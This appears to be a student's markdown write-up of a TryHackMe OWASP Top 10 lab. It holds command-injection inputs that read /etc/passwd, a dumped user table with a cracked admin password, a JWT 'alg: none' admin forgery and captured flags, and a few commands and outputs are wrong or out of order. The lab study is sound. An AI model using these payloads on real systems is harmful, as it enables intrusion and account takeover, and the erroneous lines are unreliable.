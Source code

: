 # Web Hacking Fundamentals

## OWASP Top 10 - 2021

1. IDOR Challenge
    a. Find the flag by changing url id: `http://10.10.111.64/note.php?note_id=0`
2. Cryptography Failures
    a. SQLite3
	i. 'PRAGMA table_info(customers)'
	ii. '.tables'
    b. Password Hash cracking
3. 

[crackstation](https://crackstation.net/)

**Cryptographic Failures: Database and Hash**

```
# SQLite3
>>> sqlite3 webapp.db
>>> .tables
sessions  users
>>> sqlite> PRAGMA table_info(users);
0|userID|TEXT|1||1
1|username|TEXT|1||0
2|password|TEXT|1||0
3|admin|INT|1||0

sqlite> SELECT * FROM users;
4413096d9c933359b898b6202288a650|admin|6eea9b7ef19179a06954edd0f6c05ceb|1
23023b67a32488588db1e28579ced7ec|Bob|ad0234829205b9033196ba818f7a872b|1
4e8423b514eef575394ff78caed3254d|Alice|268b38ca7b84f44fa0a6cdc86e6301e0|0

> admin pw: qwertyuiop
> THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}
```

**Injections**

```
>>> ;ls
css
drpepper.txt
index.php
js
>>> ;whoami
apache
>>> ;ps -ef
root      0:00 {docker-entrypoi} /bin/sh /docker-entrypoint.sh
>>> ;cat /etc/alpine-release
>>> ;cat /etc/passwd | grep 'usr'
```

**Insecure Password Reset**

```
color: green
2JM0BPiu3yO5kx
>>> user: joseph; password: 2JM0BPiu3yO5kx
THM{Not_3ven_c4tz_c0uld_sav3_U!}
```

**Security Misconfiguration**

[OWASP - Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)
```{python}
>>> import os; print(os.open("ls -l").read())
>>> import os; print(os.open("cat app.py").read())
THM{Just_a_tiny_misconfiguration}
```

**Outdated Components**

[exploit db](https://www.exploit-db.com/)


**Identification and Authentification Failures**

```
username: ' darren'
fe86079416a21a3c99937fea8874b667
username: ' arthur'
d9ac0f7db4fda460ac3edeb75d75e16e
```

[SRI Hash Generator](https://www.srihash.org/)

**Data Integrity Failures**

- Cookie: `header.payload.signature`
- We take the cookie from the guest login and modify the header so that:
    * changing `"alg":"HS256"` to `alg:"none"`
    * changing `"username":"guest"` to  `"username":"admin"`

```
--Example--
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjY1MDc2ODM2fQ.C8Z3gJ7wPgVLvEUonaieJWBJBYt5xOph2CpIhlxqdUw

>>> echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
>>> echo "eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjY1MDc2ODM2fQ" | base64 -d
>>> echo "C8Z3gJ7wPgVLvEUonaieJWBJBYt5xOph2CpIhlxqdUw" | base64 -d

{"typ":"JWT","alg":"HS256"} 
{"username":"guest","exp":1665076836}
w>KE(%`Iya*H\juL`)


--Challenge--
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjgzNjAwMjc4fQ.HpAi26xMBAaYWpo5SQipEqHYq_M7r8fTjxw0zGO1P5Y

>>> echo 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9' | base64 -d
{"username":"guest","exp":1683600278}
>>> echo 'eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjgzNjAwMjc4fQ' | base64 -d
>>> echo '{"typ":"JWT","alg":"none"}' | base64
>>> echo '{"username":"admin","exp":1683600278}' | base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0K
eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjgzNjAwMjc4fQo=


eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0K.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjgzNjAwMjc4fQo=.

THM{Dont_take_cookies_from_strangers}
```

**Security Logging and Monitoring Failures**





